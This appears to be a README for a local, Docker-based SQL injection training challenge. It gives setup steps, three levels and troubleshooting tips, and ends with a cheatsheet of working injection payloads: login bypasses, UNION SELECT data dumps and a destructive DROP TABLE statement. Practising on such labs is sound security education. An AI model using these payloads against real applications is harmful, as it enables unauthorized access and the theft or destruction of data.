 # SQL Injection Challenge

A simple SQL injection challenge designed for educational purposes. Try to bypass the login system and extract sensitive data!

## Prerequisites
- Docker
- Docker Compose

## Setup Instructions
1. Clone this repository:

   git clone https://github.com/JKM1990/injection-challenge


2. Navigate to the project directory:

   cd Injection_challenge


3. Start the containers:

   docker-compose up -d


4. Access the challenge:

   Open your browser and visit `http://localhost:8080`

## The Challenge

Your mission, should you choose to accept it:

1. Level One: Try to log in without checking valid credentials from the database.
2. Level Two: Extract ALL user data from the database
3. Challenge Level: Find all admin accounts and their details

Once you have completed the challenge level, send a screenshot of the input you used including the successful feedback & data 
to w0194127@nscc.ca


### Tips
- Think about SQL syntax and special characters
- Remember that SQL queries can be manipulated
- Consider how login forms typically work with databases

## Extra Tips
- `#` can be more reliable than `--` as a comment
- The password field doesn't matter when using these injections
- Use single quotes `'` to break out of the SQL string
- The space at the end of injections is important when using `--`

## Common Errors & Fixes
- If getting syntax error with `--`, add a space after it
- If `--` doesn't work, try using `#` instead
- If UNION fails, make sure there's a space between UNION and SELECT

## Cheatsheet
Note: Adding a space after -- is crucial.
Note: Some of these commands are not relevant to this challenge.

'; DROP TABLE users;#
' UNION SELECT * FROM users;#
' OR username LIKE '%admin%' -- 
' ORDER BY 1,2,3 --
' UNION SELECT * FROM users -- 
'; DROP TABLE users;#
' OR '1'='1' -- 
' HAVING 1=1 -- 
' OR 'x'='x' -- 
' UNION SELECT * FROM users UNION SELECT * FROM users;#
' GROUP BY username HAVING 1=1 --
admin' -- 

## Good luck! 